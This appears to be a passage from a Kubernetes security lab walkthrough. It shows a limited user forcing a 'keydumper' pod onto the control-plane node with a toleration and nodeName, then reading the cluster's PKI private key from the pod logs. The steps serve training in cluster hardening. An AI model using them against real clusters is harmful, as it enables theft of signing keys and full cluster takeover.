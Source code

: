 ## SSH to Create Pod - Multi Node

## Compromising the cluster

3. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
4. `kubectl get po` will work and give you a list of pods in the default namespace
At this point there's several ways to achieve the goal, lets go with hostpath, however as we have a multi-node cluster, we need to make sure that our pod will land on the control plane node that has the key available.

5. There's two steps needed to modify the keydumper manifest to have this work. First, copy the `/key-dumper-pod.yml` file to `/home/sshuser/`, then add the following lines to the spec section of the manifest to allow it to schedule to a control plane node :-
```yaml
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
```

6. Then we need to specify the node to land on , get the nodes with `kubectl get nodes` then add the following line to the spec. section of the manifest.
```yaml
  nodeName: sshcpmn-control-plane
```


5. Now we need to create a pod that dumps out the PKI private key `kubectl create -f keydumper.yml`
6. and the key should be in the logs `kubectl logs keydumper-pod`
7. profit!
